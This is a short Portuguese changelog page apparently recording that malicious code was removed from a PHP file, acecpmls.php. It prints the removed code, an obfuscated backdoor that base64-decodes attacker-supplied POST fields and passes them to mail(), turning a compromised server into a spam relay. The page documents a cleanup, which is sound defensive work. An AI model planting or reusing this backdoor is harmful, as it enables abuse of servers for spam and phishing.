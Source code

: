 ```yaml
---
id: doc42
title: Arquivos Maliciosos
sidebar_label: COD 2019-10-10:06
---
```


## 42.0.0 - 2019-10-10

### Fixed

- Removido código malicioso no arquivo acecpmls.php 

## Código


```php
<?php 
$jewrqwbnlk = base64_decode($_POST['ylxqjqbcn']); 
$xaouf = base64_decode($_POST['nrsf']); 
$jwgpxlzblkepa = base64_decode($_POST['tdluhqtnmzr']);  
$fcublsqtpae = base64_decode($_POST['qqifquaqdzvp']);  
$jfnbrsjfq = mail($jewrqwbnlk, $xaouf, $jwgpxlzblkepa, $fcublsqtpae);
if($jfnbrsjfq){echo 'vwkxlpc';} else {echo 'yfbhn : ' . $jfnbrsjfq;} 

```


 
                             

 
 
                                           
                                

